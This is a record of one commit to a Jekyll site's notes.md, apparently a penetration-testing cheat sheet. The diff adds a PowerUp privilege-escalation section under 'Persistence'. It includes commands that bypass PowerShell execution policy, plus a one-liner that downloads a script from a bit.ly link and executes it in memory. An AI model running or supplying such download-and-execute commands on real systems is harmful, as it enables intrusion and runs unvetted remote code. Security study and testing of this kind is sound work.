

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 900 px high, scrolled down 3107 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -163,6 +163,21 @@ Find-LAPSDelegatedGroups
 
 # Persistence
 
+#### PowerUp
+
+```cpp
+powershell.exe -nop -exec bypass
+Import-Module PowerUp.ps1
+Invoke-AllChecks | Out-File -Encoding ASCII Allchecks.txt
+```
+
+If you want to invoke everything without touching disk, use something like this:
+
+```cpp
+powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”
+```
+
+
 
 ### Classic Startup folder
 
````
